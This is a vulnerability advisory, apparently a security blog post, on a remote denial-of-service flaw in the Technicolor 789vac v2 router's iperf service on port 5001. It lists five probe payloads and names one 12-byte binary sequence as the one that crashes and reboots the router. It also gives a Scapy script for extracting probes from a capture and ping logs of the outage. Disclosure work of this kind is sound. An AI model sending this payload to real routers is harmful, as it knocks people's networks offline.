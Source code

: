 ```yaml
---
layout: post
title: "Router Technicolor 789vac v2" 
date: 2025-01-15
comments: "-"
categories: vulnerability
---
```



## Affected products

```
    Technicolor 789vac v2 - firmware AGTOT_2.0.0
    -------------------------------- AGTOT_2.0.1
    -------------------------------- AGTOT_2.2.3
```

We have not yet tested Technicolor models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.


## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT_2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

We tested the improper behaviours. 
Simultaneously, we captured the network traffic log all packets exchanged. 
We saved the captured data in PCAPNG format for further analysis. 
Collect all the probes analyzing pcapng (e.g. Scapy)
We filtered precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of the probes collected: 
```
Probe #1 BOF: b'\x41' * 10000
Probe #2 Unexpected input from another protocol: b'GET / HTTP/1.1\r\nHost: 192.168.1.1\r\n\r\n'
Probe #3: b'\r\n\r\n'
Probe #4 Enumeration: b'\x69\x70\x65\x72\x66\x20\x2d\x76\x00'
Probe #5 unexpected binary sequence: b'\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01'
```

Probe scraping: 
```
from scapy.all import rdpcap


file_path = 'crash.pcapng'  # Replace with your file path
packets = rdpcap(file_path)

target_ip = "ip_addr" 
target_port = 5001

probes = []
for packet in packets:
    if packet.haslayer("TCP") and packet["TCP"].dport == target_port and packet["IP"].dst == target_ip:
        payload = bytes(packet["TCP"].payload)
        if payload and payload not in probes: 
            probes.append(payload)

for i, probe in enumerate(probes, start=1):
    print(f"Probe #{i}: {probe}")
```

The probe #5 is the chosen one that leads Techicolor 789vac failure. 

```
64 bytes from 192.168.1.1: icmp_seq=183 ttl=64 time=0.401 ms
64 bytes from 192.168.1.1: icmp_seq=184 ttl=64 time=0.348 ms
64 bytes from 192.168.1.1: icmp_seq=185 ttl=64 time=0.384 ms
64 bytes from 192.168.1.1: icmp_seq=186 ttl=64 time=0.373 ms
64 bytes from 192.168.1.1: icmp_seq=187 ttl=64 time=0.335 ms
64 bytes from 192.168.1.1: icmp_seq=188 ttl=64 time=0.349 ms
64 bytes from 192.168.1.1: icmp_seq=189 ttl=64 time=4.66 ms
64 bytes from 192.168.1.1: icmp_seq=190 ttl=64 time=0.518 ms
64 bytes from 192.168.1.1: icmp_seq=191 ttl=64 time=0.385 ms
64 bytes from 192.168.1.1: icmp_seq=192 ttl=64 time=0.418 ms



From 192.168.1.2 icmp_seq=247 Destination Host Unreachable
From 192.168.1.2 icmp_seq=248 Destination Host Unreachable
From 192.168.1.2 icmp_seq=249 Destination Host Unreachable
```
Before the failure (icmp_seq=183 to icmp_seq=188) the latency can be considered low (~0.3-0.4 ms)
During the moment of disruption (icmp_seq=189) there's a sudden spike in response time, which indicates the system is struggling to process the incoming data.
After failure (icmp_seq=190 to icmp_seq=192), the router resumes responding briefly until the total failure (icmp_seq=247 and beyond), becoming unreachable.

Moreover, this will result in an unintended system reboot. The time required for the system to reboot is unpredictable, ranging from a few seconds up to 10 minutes after the actor has exploited the system.
 
